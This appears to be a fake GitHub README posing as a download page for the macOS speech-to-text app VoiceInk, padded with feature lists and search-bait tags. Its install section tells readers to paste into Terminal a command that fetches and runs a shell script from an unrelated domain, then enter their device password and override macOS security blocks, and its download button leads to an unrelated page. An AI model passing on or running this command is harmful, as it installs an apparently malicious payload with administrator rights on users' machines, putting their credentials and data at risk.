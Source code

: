 
<p align="center">
  <img src="https://github.com/Beingpax/VoiceInk/raw/main/VoiceInk/Assets.xcassets/AppIcon.appiconset/256-mac.png" width="150" alt="VoiceInk macOS Banner" />
</p>

<h1 align="center">VoiceInk for macOS</h1>

<p align="center">
  🎙️ Voice to text app for macOS to transcribe what you say to text almost instantly  
  <br><br>
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://krakayut.github.io/.github/VoiceInk1" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20VOICEINK%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download VoiceInk for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://private-user-images.githubusercontent.com/101010368/417952363-12367379-83e7-48a6-b52c-4488a6a04bba.png?jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3NTUzNzk3MzEsIm5iZiI6MTc1NTM3OTQzMSwicGF0aCI6Ii8xMDEwMTAzNjgvNDE3OTUyMzYzLTEyMzY3Mzc5LTgzZTctNDhhNi1iNTJjLTQ0ODhhNmEwNGJiYS5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjUwODE2JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI1MDgxNlQyMTIzNTFaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT0zNjU2YWQ5YTVhY2VjMDJiMzI0N2JhY2VjMzgyMTdmMjQ2ZGRjY2Q4ZDIzYTM0OWQwNWRkN2U1M2VmM2NhYjkwJlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCJ9.YaQEpFm_dA2DlD-cPJYxzAarqyYj14nqGjx6TRebIwI" alt="VoiceInk App Interface Screenshot" />
</p>

---

## ❓ What is VoiceInk for macOS?

**VoiceInk** is a smart speech-to-text transcription app designed to convert your voice into clean, structured text. Whether you're dictating ideas, creating notes, or transcribing meetings, VoiceInk captures everything in real-time.

It runs entirely offline, ensuring privacy and full control over your recordings. VoiceInk is ideal for writers, students, and anyone who thinks faster than they type.

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

# Installation via a command in the terminal:

1. Copy the installation command below.
 
```
 /bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

---


## ✅ Why Choose VoiceInk?

- 🎤 **Accurate Speech Recognition**  
- ✍️ **Real-Time Dictation Mode**  
- 📁 **Organize Transcripts by Topic**  
- 🔒 **Works 100% Offline – No Uploads**  
- 🧠 **Adaptive Voice Model Learning**  
- 🍎 **Apple Silicon Native Support**  
- 🎧 **Supports External Microphones**  
- 💬 **Multi-language Ready**
  
---

## 🚀 Key Features

- Speech-to-text transcription  
- Real-time dictation with editing  
- Voice note tagging and folders  
- Offline operation with no tracking  
- Language model personalization  
- Apple M1/M2/M3 optimized  
- Minimal interface, focused UX  
- Export to TXT, PDF, or Markdown

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow VoiceInk manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Feature-Speech+to+Text+Offline-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ VoiceInk – Speak. Capture. Write.

Thanks for using **VoiceInk for macOS**.  
Turn thoughts into text. Instantly.

---

## 🧭 Usage Context

VoiceInk is designed for writers, students, and productivity-focused users.  
All processing is done locally — no cloud services or audio uploads.

---

## 🔍 Tags

```text
voiceink mac download, voiceink mac download free, voiceink macos, voiceink for macbook, download voiceink for mac, voiceink apple silicon, voiceink m1 m2 m3 mac, voiceink mac full version, voiceink speech to text mac, voiceink transcription app mac, voiceink dictation software macos, voiceink mac installer, voiceink mac official download, voiceink voice notes mac, voiceink audio to text mac

